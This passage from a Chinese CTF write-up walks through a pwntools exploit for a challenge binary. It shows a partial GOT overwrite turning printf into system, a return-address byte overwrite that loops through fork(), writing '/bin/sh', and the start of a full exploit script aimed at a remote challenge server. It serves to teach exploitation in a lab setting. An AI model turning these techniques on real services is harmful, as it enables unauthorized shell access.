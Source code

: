 ```python
## step 1
io.sendafter(b'Input the Destination:\n', p64(printf_got)) # Dest -> printf_got

io.sendafter(b'Input the impact:', p8(0x40)) # printf_got -> system_plt
payload = b'a'*0x18 + p8(0xab) # rip -> time = 0 ; call fork()
io.send(payload)
```
&emsp;&emsp;&emsp;向Dest处写上"/bin/sh\0"<br>
&emsp;&emsp;&emsp;此时还有一个问题，"/bin/sh\0"不一定是一个可写的地址，为了验证read()的反应，这里写一个demo<br>
```c
#include <stdio.h>
#include <unistd.h>

int main()
{
        char *dead = "/bin/sh\0";
        read(0, (void *)*dead, 1);
        puts("I'm alive !");
        return 0;
}

```
```sh
┌──(kali㉿kali)-[~/Desktop]
└─$ gcc test.c -o test
test.c: In function ‘main’:
test.c:7:17: warning: cast to pointer from integer of different size [-Wint-to-pointer-cast]
    7 |         read(0, (void *)*dead, 1);
      |                 ^

┌──(kali㉿kali)-[~/Desktop]
└─$ ./test            
s
I'm alive !
```
&emsp;&emsp;&emsp;虽然gcc报了warning，但不影响编译，而且read()表示我没意见，于是没有抛出错误<br>
&emsp;&emsp;&emsp;这里还有一个小细节值得注意，demo中输入了's'，但这只是为了方便展示，实际上read()并没有读入's'，read()只是在等回车结束stdin（可能说法不太准确），也就是**我开stdin != 我读入字符**，这一处卡了本人快2个小时。<br>
&emsp;&emsp;&emsp;布置好system("/bin/sh\0")之后，我们再fork()一次<br>
```python
## step2
io.sendafter(b'Input the Destination:\n', b'/bin/sh\0') # Dest -> "/bin/sh\0"
payload = b'a'*0x18 + p8(0xb5) # call fork()
##io.sendafter(b'Input the impact:', b's') # 不需要发送字符，否则会占用payload的读入长度
io.send(payload)
```
&emsp;&emsp;&emsp;此时上一个线程卡在main()::20，wait(0LL)，我们想办法让新开的子线程结束，就可以getshell<br>
```python
## step3
payload = b'a'*0x18 + p8(0x48) # 0x401248 ret, ret到了一个非法地址，子程序退出
io.send(payload)
```
### **Step4 完整exp**
&emsp;&emsp;&emsp;ps: libc.so.6全程旁观<br>
```python
from pwn import *

def debug(cmd=''):
    gdb.attach(io, cmd)
    pause()

context.log_level = "debug"
##io = process("./pwn")
io = remote("152.136.11.155", 10027)
```